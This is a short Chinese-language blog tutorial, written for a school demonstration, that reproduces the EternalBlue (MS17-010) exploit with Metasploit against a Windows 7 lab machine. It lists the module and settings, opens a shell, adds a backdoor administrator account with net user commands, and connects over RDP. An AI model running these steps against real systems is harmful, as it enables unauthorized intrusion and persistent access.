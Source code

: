 ```yaml
---
layout: post
title: 'Metasploit简单使用'
subtitle: '利用永恒之蓝漏洞'
date: 2021-05-30
categories: kali
cover: 'https://www.hualigs.cn/image/60b342c889328.jpg'
tags: 脚本的使用
---
```

## 说明
参加学校ICT活动需要一个技术展示，突然就想到之前最火的永恒之蓝漏洞，于是就有了这篇复现文章
本人还是个刚刚入门的小白，如果写的不好请轻喷
攻击机是kali 目标机是Windows 7
远程连接之前需要将Windows 7的允许远程链接打开

## 操作步骤
1. 启动Metasploit
![image](https://z3.ax1x.com/2021/05/30/2VyDN8.png)
2. 查找ms17_010
``` search ms17_010```
![iamge](https://z3.ax1x.com/2021/05/30/2Vyz4O.png)
ms17_010是永恒之蓝漏洞，适用于Windows 7和Windows Server 2012
3.使用 exploit/windows/smb/ms17_010_eternalbule
![image](https://z3.ax1x.com/2021/05/30/2V6lKs.png)
4. 设置一下
输入options
![image](https://z3.ax1x.com/2021/05/30/2V6TdP.png)
然后开始设置各种参数：
``rhosts 是目标IP地址 rprot是目标端口``
永恒之蓝漏洞是利用445端口进行渗透
5. SET
设置目标IP	设置目标端口	设置payload	设置target
![image](https://z3.ax1x.com/2021/05/30/2VcFWF.png)	
6. 开始运行 run或者exploit
然后就获取到目标电脑的权限
7. 提权方法
输入shell
![image](https://z3.ax1x.com/2021/05/30/2Vcb01.png)
7. 创建用户
`net user 123 123+qwe /add 创建一个账户123 密码123+qwe的用户 
net localgroup administrators 123 /add 将123提升为管理员`
8. 远程连接
``` rdesktop +IP```
![image](https://z3.ax1x.com/2021/05/30/2VgBAx.png)


![image](https://z3.ax1x.com/2021/05/30/2Vgcge.png)
然后登陆就可以
